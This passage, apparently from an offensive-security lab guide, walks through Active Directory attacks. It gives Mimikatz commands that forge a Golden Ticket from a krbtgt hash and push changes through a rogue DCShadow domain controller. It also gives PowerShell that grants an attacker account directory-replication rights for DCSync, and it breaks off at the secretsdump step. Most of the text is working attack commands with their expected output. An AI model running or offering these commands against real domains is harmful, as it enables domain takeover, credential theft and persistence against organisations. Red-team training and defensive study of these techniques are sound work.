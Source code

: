 #### Scenario C: DCShadow Attack  
- Generate Golden Ticket for rogue DC:  
  ```powershell
  Mimikatz.exe 'kerberos::golden /user:corp\DCShadow1$ /domain:corp.local /sid:S-1-5-21-... /krbtgt:7c6a180b36896a0a8c02787eeafb0e4c /id:11223344 /groups:512 /ptt'
  ```
- Register Rogue DC and push changes:  
  ```powershell
  mimikatz.exe 'lsadump::dcshadow /push'
  ```
    
    _Expected Output:_ Confirmation that rogue DC object registered and changes replicated.

----------

### Using Impackets

1.  **Enumerate ACLs for replication rights**
    
    ```powershell
    # List ACL entries on domain root
    Get-ObjectAcl -DistinguishedName "DC=lab,DC=local" -ResolveGUIDs | Format-Table IdentityReference,ActiveDirectoryRights
    
    ```
    
    _Purpose_: Identify who can replicate directory changes.  
    _Look for_: `DS-Replication-Get-Changes` or `DS-Replication-Get-Changes-All` rights.
    
2.  **If you have WriteDacl, grant replication rights**
    
    ```powershell
    # Fetch current ACL
    $acl = Get-Acl "AD:\DC=lab,DC=local"
    # Create replication ACE for your user
    $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
      "LAB\AttackerUser",
      "DS-Replication-Get-Changes,DS-Replication-Get-Changes-All",
      "Allow"
    )
    # Add and apply
    $acl.AddAccessRule($ace)
    Set-Acl "AD:\DC=lab,DC=local" $acl
    
    ```
    
    _Purpose_: Use existing ACL permissions to elevate to replication.
    
3.  **Run DCSync with secretsdump**
    